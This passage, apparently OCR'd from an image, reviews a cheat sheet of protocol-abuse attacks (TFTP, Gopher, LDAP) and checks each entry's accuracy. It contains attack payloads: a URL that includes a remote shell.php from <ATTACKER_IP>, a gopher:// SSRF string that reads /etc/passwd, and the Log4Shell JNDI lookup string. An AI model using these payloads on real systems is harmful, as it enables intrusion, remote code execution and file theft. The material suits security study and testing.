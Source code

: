     - atftp --put shell.php -r shell.php <TARGET_IP>
        
    - Check: Incorrect syntax. atftp uses --put to upload, but -r shell.php specifies a remote file, and it’s meant to send to <TARGET_IP>. Correct usage would be atftp -p -l shell.php -r shell.php <TARGET_IP>, assuming a TFTP server runs on the target. For an attacker serving the file, a TFTP server like tftpd is needed (e.g., sudo tftpd -L -p 69).
        
- Exploitation URL:
    
    - http://<TARGET_IP>/index.php?language=tftp://<ATTACKER_IP>/shell.php&cmd=id
        
    - Check: Valid if the target supports tftp:// (rare, requires custom wrappers or misconfigs). Executes id if included.
        
- Status: Mostly Accurate. Command needs correction; concept is sound but rare.
    

5. Gopher

- Description: Abuses gopher:// to trigger SSRF/RCE.
    
    - Check: Accurate. Gopher is a known SSRF vector, occasionally leading to RCE via backend exploitation (e.g., MySQL).
        
- Example Exploit Command:
    
    - gopher://<TARGET_IP>:3306/_%00SELECT%20load_file('/etc/passwd')
        
    - Check: Partially correct. This is an SSRF payload targeting MySQL (port 3306), not direct RCE. It’s a URL, not a command to execute locally. A tool like curl would send it: curl "gopher://<TARGET_IP>:3306/_%00SELECT%20load_file('/etc/passwd')". RCE depends on further exploitation (e.g., writing a file).
        
- Exploitation URL:
    
    - "Used for SSRF, sometimes leading to RCE"
        
    - Check: Accurate. Gopher is primarily SSRF; RCE is indirect (e.g., via database or service abuse).
        
- Status: Accurate. Description fits; command is an example payload, not a local command.
    

6. LDAP (389)

- Description: Injects LDAP queries for RCE.
    
    - Check: Partially accurate. LDAP itself doesn’t directly execute code; RCE typically comes from misconfigured apps (e.g., Log4j) or LDAP injection leading to backend exploits.
        
- Example Exploit Command:
    
    - ldapsearch -x -H ldap://<TARGET_IP> -D "cn=admin,dc=example,dc=com" -w password
        
    - Check: Correct syntax for querying LDAP, but it’s reconnaissance, not RCE. RCE via LDAP often requires a vulnerable app (e.g., Log4Shell: ${jndi:ldap://<ATTACKER_IP>/a}).
        
- Exploitation URL:
    
    - "Exploits LDAP misconfigurations"
        
    - Check: Vague but true. RCE depends on app-level vulnerabilities, not LDAP alone.
        
- Status: Partially Accurate. RCE claim is overstated; needs context (e.g., Log4j).
    